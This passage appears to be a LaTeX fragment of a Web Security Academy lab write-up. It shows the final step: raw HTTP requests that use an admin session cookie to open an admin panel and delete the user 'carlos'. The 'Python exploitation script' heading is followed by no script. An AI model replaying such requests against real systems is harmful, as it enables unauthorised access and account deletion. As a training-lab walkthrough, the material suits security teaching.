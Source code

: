 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=http,caption={Step 6: Access admin panel and delete user}]
-- Access admin panel --
GET /admin HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=adminSession789

-- Response shows user management --
HTTP/1.1 200 OK

<h1>Admin Panel</h1>
<div>
    carlos - <a href="/admin/delete?username=carlos">Delete</a>
</div>
<div>
    wiener - <a href="/admin/delete?username=wiener">Delete</a>
</div>

-- Delete carlos --
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=adminSession789

-- Response --
HTTP/1.1 302 Found
Location: /admin

-- Lab solved! --
\end{verbatim}

\section{Automated Exploitation}

\subsection{Complete Python Exploitation Script}
\end{document}
